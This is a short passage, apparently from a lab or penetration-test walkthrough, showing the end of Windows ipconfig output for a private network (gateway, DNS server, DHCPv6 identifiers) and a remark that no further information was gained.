   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.110.1
   DHCPv6 IAID . . . . . . . . . . . : 285233238
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-2B-C9-D1-D5-00-50-56-B9-B3-E8
   DNS Servers . . . . . . . . . . . : 192.168.110.55
   NetBIOS over Tcpip. . . . . . . . : Enabled
```

So far seems like we couldn't get more that what we already got here...